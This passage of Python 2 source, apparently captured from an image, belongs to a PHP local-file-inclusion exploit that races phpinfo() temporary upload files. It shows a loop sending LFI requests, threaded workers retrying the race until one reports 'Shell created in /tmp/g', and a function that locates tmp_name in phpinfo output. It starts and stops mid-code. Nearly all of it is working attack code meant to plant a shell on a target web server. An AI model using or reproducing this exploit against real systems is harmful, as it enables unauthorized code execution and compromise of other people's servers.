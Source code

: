         s2.send(lfireq % (fn, host))
        d = s2.recv(4096)
        s.close()
        s2.close()

        if d.find(tag) != -1:
            return fn

    counter=0
    class ThreadWorker(threading.Thread):
        def __init__(self, e, l, m, *args):
            threading.Thread.__init__(self)
            self.event = e
            self.lock =  l
            self.maxattempts = m
            self.args = args

        def run(self):
            global counter
            while not self.event.is_set():
                with self.lock:
                    if counter >= self.maxattempts:
                        return
                    counter+=1

                try:
                    x = phpInfoLFI(*self.args)
                    if self.event.is_set():
                        break                
                    if x:
                        print "\nGot it! Shell created in /tmp/g"
                        self.event.set()
                        
                except socket.error:
                    return
        

    def getOffset(host, port, phpinforeq):
        """Gets offset of tmp_name in the php output"""
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host,port))
        s.send(phpinforeq)
        
        d = ""
        while True:
            i = s.recv(4096)
            d+=i        
            if i == "":
                break
            # detect the final chunk
            if i.endswith("0\r\n\r\n"):
                break
        s.close()
        i = d.find("[tmp_name] =&gt; ")
        if i == -1:
            raise ValueError("No php tmp_name in phpinfo output")
        
